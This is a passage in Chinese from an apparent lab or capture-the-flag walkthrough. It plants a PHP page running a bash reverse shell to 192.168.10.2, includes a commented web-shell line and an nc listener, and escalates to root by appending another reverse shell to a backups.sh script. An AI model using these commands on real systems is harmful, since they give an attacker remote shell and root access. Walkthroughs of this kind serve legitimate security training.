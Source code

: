 那么新建一个文章，然后使用`php`格式，然后进行保存

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'");
//system($_REQUEST['cmd']);		//用于测试使用
?>
```

当然，在执行上面的反弹`shell`时，需要先在`kali`中开启监听

```shell
nc -lvvp 9999
```

获取到`www-data`的`bash`

![](./pic-7/30.jpg)

# 提权至root

然后在该脚本的末尾加入反弹`shell`代码，不过需要在`kali`另起终端，监听8888端口

```shell
echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/8888 0>&1'" >> backups.sh
```

如果，这条命令不行，就可以在`https://forum.ywhack.com/shell.php`测试合适的，添加就是了
